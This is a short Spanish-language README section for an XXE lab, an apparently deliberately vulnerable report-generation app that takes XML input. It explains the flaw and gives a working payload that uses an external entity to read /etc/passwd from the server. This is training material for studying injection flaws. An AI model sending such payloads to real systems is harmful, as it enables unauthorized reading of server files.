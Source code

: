 ## 🚨 XML External Entity Injection (XXE-Lab)
- Aplicación vulnerable a inyección de entidades externas dentro de un XML.
- Se trata de una aplicación de generación de reportes en la que los datos viajan en formato XML.

Sin embargo, al no estar correctamente sanitizada la petición, el atacante puede interceptar la petición y modificarla, logrando de esta forma leer archivos internos del servidor.

Con este payload podemos leer el archivo **/etc/passwd** de la máquina:

```sh
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
            <report>
                <name>&xxe;</name>
                <email>example@example.com</email>
                <description>Example description</description>
            </report>
```
